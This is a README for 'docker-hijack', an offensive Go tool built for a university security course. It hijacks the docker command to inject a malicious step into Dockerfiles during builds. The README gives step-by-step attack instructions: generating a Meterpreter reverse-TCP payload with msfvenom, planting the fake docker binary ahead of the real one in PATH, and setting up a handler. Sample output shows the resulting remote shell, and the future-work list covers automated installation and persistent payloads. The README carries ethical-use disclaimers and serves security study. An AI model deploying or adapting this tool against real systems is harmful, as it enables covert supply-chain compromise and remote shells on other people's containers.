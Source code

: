 # docker-hijack

Docker-hijack demonstrates how an adversary could hijack the docker build process to embed malware in container images.

This tool is intended for use by ethical security practitioners to assess and improve cybersecurity.

Misuse of this tool is strongly condemned by the author.

This tool was created to satisfy classwork for Dakota State University's CSC-842 Security Tool Development.

![image](media/docker-hijack.drawio.png)

## Prerequisites

- GNU/Linux-based Operating System
- Go compiler
- Docker
- Metasploit (optional)

### Usage

### 1. Build from Source

We do not provide pre-compiled versions of this program.

You must first build docker-hijack from source.

Build instructions are as follows:

```bash
# clone the repository
git clone https://github.com/bluesentinelsec/docker-hijack.git

# enter the project folder
cd docker-highjack

# place a meterpreter shell in the payloads folder
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o pkg/payload/meterpreter

# read/change the evil docker-build commands
cat pkg/payload/build_commands.txt

# build docker-highjack with default options
go build -o docker-hijack cmd/main.go

# confirm executable runs; it should proxy
# '--help' to the legitimate docker executable
./docker-hijack --help
```

### 2. Deploy docker-hijack to target Unix-based system

How you do this is up to you.

Never deploy this tool on target systems unless you have explicit written permission from the device owner(s).

### 3. Install docker-hijack on target

You should now have the docker-hijack binary on the target system.

Next, we need to ensure that docker-hijack is executed before the legitimate docker.

There are many ways to do this, such as setting alias commands, or modifying the user's $PATH variable.

For demonstration purposes, you can simply copy the tainted docker to `/usr/local/bin` which is ahead of the legitimate docker executable.

This requires sudo permissions.

```bash
# move docker-hijack to location ahead of docker in $PATH
sudo mv docker-hijack /usr/local/bin
```

Now confirm that docker-hijack is executed:

```bash
docker --infected

you executed docker hijack
```

Now docker-hijack sits between the user and the legitimate docker executable.

### 4. Wait for compromised user to invoke docker build command

Setup a Meterpreter handler; this needs to match the Meterpreter created in `docker-hijack/pkg/payload/meterpreter`:

```
# example meterpreter commands
sudo msfconsole
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 0.0.0.0
msf > set LPORT 4444
msf > run -j
[*] Started reverse TCP handler on 0.0.0.0:4444 
```

Now wait... whenever a compromised user invokes docker build, docker-hijack will insert a malicious command into the docker build file.

To test this, run a docker build command against `docker-hijack/testData/Dockerfile`.

```bash
# from docker-hijack/testData/
# build the Dockerfile; docker-hijack will intercept the command
# and inject the Dockerfile; once the build is finished, docker-hijack
# will restore the original build file
docker build . -t compromised
```

Finally, execute the container.

If it worked, you should get a shell.

```bash
docker exec -it compromised bash
```

```bash
msf6 exploit(multi/handler) > [*] Sending stage (1017704 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.153:4444 -> 172.17.0.2:41404) at 2023-05-31 18:39:01 -0400
```

### 5. Cleanup

Remove docker-hijack:

```
# delete docker-hijack
rm -rf /usr/local/bin/docker

# stop/delete tainted container image
docker ps
docker stop <tainted container ID>

docker images
docker rmi infected --force
```

## Future Work

Given enough time, I would pursue the following features:

1. Automate docker-hijack installation

2. Deploy the embedded payload as a service/daemon. This should make the payload fire when the container is executed detatched. Cron job is another option; however, containers don't always have cron installed.

3. Make it easier to specify your payloads at build time. Ideally it should be:

```bash
make payload_src=/path/to/your_rat \
     payload_dst=/usr/local/bin/your_rat \
     build_cmds=/path/to/your_build_cmds.txt
```

